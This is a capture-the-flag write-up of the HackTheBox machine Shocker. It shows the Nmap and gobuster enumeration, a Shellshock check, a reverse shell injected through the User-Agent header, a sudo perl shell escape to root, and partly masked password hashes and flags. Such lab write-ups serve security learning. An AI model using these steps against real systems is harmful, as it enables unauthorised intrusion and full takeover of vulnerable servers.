 [HackTheBox] Shocker
===============
date: 13/Nov/2019
summary: This is the summary for an awesome post.
tags: hackthebox, writeup

## Overview
![writeup.metadata.infocard](/static/files/posts_htb_shocker/infocard.png)

This is a writeup for HTB VM [Shocker](https://www.hackthebox.eu/home/machines/profile/108). Here's an overview of the `enumeration` → `exploitation` → `privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_htb_shocker/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Nov 13 16:00:23 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/htb.shocker/results/10.10.10.56/scans/xml/_quick_tcp_nmap.xml 10.10.10.56
Increasing send delay for 10.10.10.56 from 0 to 5 due to 145 out of 482 dropped probes since last increase.
Nmap scan report for 10.10.10.56
Host is up, received user-set (0.11s latency).
Scanned at 2019-11-13 16:00:24 PST for 25s
Not shown: 998 closed ports
Reason: 998 resets
PORT     STATE SERVICE REASON         VERSION
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Nov 13 16:00:49 2019 -- 1 IP address (1 host up) scanned in 26.24 seconds
```

2\. We try Shellshock related enumeration steps to identify interesting scripts to be used as entrypoint:  
```
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403
gobuster -u 10.10.10.56 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -s 200,204,301,302,307,403 -k -x sh,pl
nmap -sV -p80 --script http-shellshock --script-args uri=/cgi-bin/user.sh,cmd=ls 10.10.10.56
```

![writeup.enumeration.steps.2.1](/static/files/posts_htb_shocker/screenshot01.png)  

![writeup.enumeration.steps.2.2](/static/files/posts_htb_shocker/screenshot02.png)  

3\. The `user.sh` script looks interesting and we manually confirm that it is vulnerable to Shellshock:  

![writeup.enumeration.steps.3.1](/static/files/posts_htb_shocker/screenshot03.png)  

![writeup.enumeration.steps.3.2](/static/files/posts_htb_shocker/screenshot04.png)  

### Findings
#### Open Ports:
```
80/tcp    |  http  |  Apache httpd 2.4.18 ((Ubuntu))
2222/tcp  |  ssh   |  OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
```
#### Files
```
http://10.10.10.56/cgi-bin/user.sh
```

## Phase #2: Exploitation
1\. We inject a Bash reverse shell command within the HTTP User-Agent header and get interactive access on the target system:  

![writeup.exploitation.steps.1.1](/static/files/posts_htb_shocker/screenshot05.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_htb_shocker/screenshot06.png)  

2\. We can now view the contents of the first flag file, `user.txt`:  

![writeup.exploitation.steps.2.1](/static/files/posts_htb_shocker/screenshot07.png)  

## Phase #2.5: Post Exploitation
```
shelly@Shocker> id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly),4(adm),24(cdrom),30(dip),46(plugdev),110(lxd),115(lpadmin),116(sambashare)
shelly@Shocker>  
shelly@Shocker> uname
Linux Shocker 4.4.0-96-generic #119-Ubuntu SMP Tue Sep 12 14:59:54 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
shelly@Shocker>  
shelly@Shocker> ifconfig
ens33 Link encap:Ethernet  HWaddr 00:50:56:b9:fe:2c
      inet addr:10.10.10.56  Bcast:10.10.10.255  Mask:255.255.255.0
      inet6 addr: fe80::250:56ff:feb9:fe2c/64 Scope:Link
      inet6 addr: dead:beef::250:56ff:feb9:fe2c/64 Scope:Global
      UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
      RX packets:769099 errors:0 dropped:0 overruns:0 frame:0
      TX packets:542509 errors:0 dropped:0 overruns:0 carrier:0
      collisions:0 txqueuelen:1000
      RX bytes:65025189 (65.0 MB)  TX bytes:92873202 (92.8 MB)
shelly@Shocker>  
shelly@Shocker> users
root
shelly
```

## Phase #3: Privilege Escalation
1\. From the output of the `sudo -l`, we know that the user `shelly` can execute `perl` with `sudo` privileges. We use this to execute Bash and get elevated privileges:  
```
sudo -l
sudo perl -e 'exec "/bin/sh";'
```

![writeup.privesc.steps.1.1](/static/files/posts_htb_shocker/screenshot08.png)  

![writeup.privesc.steps.1.2](/static/files/posts_htb_shocker/screenshot09.png)  

2\. We then view the contents of the `root.txt` file to complete the challenge:  

![writeup.privesc.steps.2.1](/static/files/posts_htb_shocker/screenshot10.png)  

## Loot
### Hashes
```
root:$6$BVgS5ne0$Q6rV3guK7QQUy7uRMwbQ3vv2Y5I9yQUhIzvrIhuiDso/o5UfDxZw7MMq8atR3UdJjhpkFVxVD0cVtjXQd........................
shelly:$6$aYLAoDIC$CJ8f8WSCT6GYmbx7x8z5RfrbTG5mpDkkJkLW097hoiEw3tqei2cE7EcUTYdJTVMSa3PALZeBHjhiFR8Ba........................
```
### Flags
```
/home/shelly/user.txt: 2ec24e11320026d1e70ff...........
/root/root.txt: 52c2715605d70c76190305..........
```

## References
* <https://www.hackthebox.eu/home/machines/profile/108>  
* <https://www.youtube.com/watch?v=IBlTdguhgfY>  
* <https://xd3m0n.xyz/htb_shocker/>  
